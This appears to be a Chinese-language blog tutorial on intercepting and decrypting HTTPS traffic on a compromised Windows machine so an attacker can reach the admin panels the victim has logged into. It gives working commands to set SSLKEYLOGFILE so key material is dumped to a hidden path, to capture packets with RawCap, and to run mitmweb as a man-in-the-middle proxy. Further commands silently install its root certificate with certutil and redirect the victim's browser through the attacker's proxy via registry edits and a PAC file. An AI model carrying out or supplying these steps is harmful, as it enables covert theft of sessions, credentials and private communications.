







Windows https流量抓取与解密
本文最后更新于：1 个月前
前言
在获取目标Windows机器权限后，有时需要访问目标登陆过的管理后台。一般情况下，方法有很多。可以抓取浏览器密码，通过密码登陆（不推荐）；可以导出浏览器cookie，通过cookie登陆。
但是在某些情况下，如后台还要校验user-agent或自定义了header头，并且网站时https的，这就需要解密流量了。
注：本文介绍的方法都需要目标机器的管理员权限。
SSLKEYLOGFILE+Rawcap
在目标机器上执行
setx SSLKEYLOGFILE c:\windows\tasks\ssl.log或修改注册表
reg add "HKCU\Environment" /v "SSLKEYLOGFILE" /t REG_SZ /d "c:\windows\tasks\ssl.log" /f通过指定SSLKEYLOGFILE环境变量，设置浏览器与https网站通信的预主密钥文件生成的位置（为了解密https流量）。之后再将该文件导入Wireshark。（Wireshark–>首选项–>协议–>TLS–>设置(pre)-master-secert log filename）

解释一下为什么通过预主密钥文件就能解密https流量：
https握手过程可以简单概述为非对称加密和对称加密两个阶段。非对称加密是为了协商对称加密所用的会话密钥。协商出会话密钥后，后面所有http流量都用该密钥进行加密。
客户端和服务器端结合client random、server random、pre master secret（预主密钥）这三个值，并使用相同的算法生成对称加密阶段的会话密钥。这里导出的预主密钥文件就包含这三个值，所以掌握了这三个值就能得到会话密钥，也就能解出对应的https流量。
在目标机器上抓包，推荐一个windows上的抓包工具Rawcap.exe。
rawcap.exe -s 60 192.168.1.2 ss.pcap这条命令意思是抓取192.168.1.2网卡上的流量，60秒后退出程序，并将抓取的流量存储到ss.pcap。
之后将SSLKEYLOGFILE指定的文件ssl.log和ss.pcap拖回本地，导入wireshark即可解密https流量。（以freebuf为例）

Mitmweb进行中间人攻击
这种方式就相当于平常用burpsuite抓https流量，需要提前导入burpsuite的证书。
如果要抓取https流量，那么需要先导入mitmweb的证书。
首先上传mitmweb到目标机器，再执行:
mitmweb.exe --web-host 172.19.211.213 --web-port 1234 --listen-host 172.19.211.213 --listen-port 8888 --no-web-open-browser在172.19.211.213的8888端口监听连接，mitmweb的web接口开在172.19.211.213的1234端口。

安装证书:
通过172.19.211.213:8888代理访问http://mitm.it/cert/pem，下载证书。
静默安装证书 ：certutil -addstore "Root" "C:\Users\Administrator\Desktop\1.pem"
Tips: 在选择mitmproxy的证书时，不要选mitmproxy-ca-cert.p12，因为用certutil安装时，需要密码，但密码又不知道。有知道解决方法的师傅可以指点一下。
导入成功后:

设置代理
开启代理服务器后，需要设置代理。
有两种方法:
一种是直接全局设置:
启用本地IE代理设置，值为1表示启用
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f设置代理服务器地址和端口号
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /d "172.19.211.213:8888" /f另一种是通过pac，设置指定的网站走代理
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL /t REG_SZ /d "http://ip/11.pac" /f//pac文件，仅代理*.xxx.com function FindProxyForURL(url, host) { if (shExpMatch(url,"*.xxx.com/*")) { return "PROXY 172.19.211.213:8888"; } return "DIRECT"; }设置好代理后访问:http://172.19.211.213:1234 即可查看或修改流量。(真实环境中可以开socks代理访问)

推荐阅读:
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！